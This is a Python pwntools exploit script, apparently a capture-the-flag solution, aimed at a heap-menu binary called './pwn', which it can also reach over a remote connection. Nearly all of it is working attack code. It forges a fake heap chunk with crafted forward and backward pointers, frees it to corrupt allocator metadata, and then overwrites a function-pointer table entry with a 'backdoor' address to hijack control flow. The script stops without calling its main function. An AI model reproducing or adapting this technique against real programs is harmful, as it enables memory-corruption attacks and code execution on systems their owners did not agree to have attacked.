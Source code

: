 ```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

from pwn import *

context.update(arch = 'amd64', os = 'linux', timeout = 1)

proc="./pwn"

elf=ELF(proc)

# 0xf < size <= 0x1000
# target = 0x000404080

def add(size,context):
	sh.sendlineafter("> ","1")
	sh.sendline(str(size))
	sh.sendline(context)

def free(index):
	sh.sendlineafter("> ","2")
	sh.sendline(str(index))

def pwn(ip,port,debug):
	global sh
	if debug==1:
		context.log_level="debug"
		sh=process(proc)
	else:
		context.log_level="debug"
		sh=remote(ip,port)
		
		

	target = 0x404018
	backdoor = 0x401473
	ptr = 0x4040d0
	# free proint 
	# gdb.attach(sh,"b *0x00000000004013FD ")
	# malloc proint
	
	for i in range(1,8):
		add(i*0x10,"AAA") 
	#gdb.attach(sh)
	fd = target - 0x18
	bk = target - 0x10
	fake_chunk = p64(0)+p64(0x81)+p64(fd)+p64(bk)+"A"*0x60+p64(0x80)
	add(0x1000,fake_chunk)
	free(0x260)

	
	add(0x1000,p64(0)+p64(0x31)+p64(target))
	# gdb.attach(sh,"b *0x0000401387 ")
	#add(0x1000,p64(0)+p64(0x61)+p64(target))
	add(0x70,"f0und")
	
	add(0x1000,p64(0)+p64(0x41)+p64(0x404058))
	add(0x20,"f0und")
	add(0x1000,p64(0)+p64(0x51)+p64(target))
	add(0x30,"f0und")
	
	
	add(0x70,p64(0x401473)+p64(0x401543)*4+"\x84\x5c")
```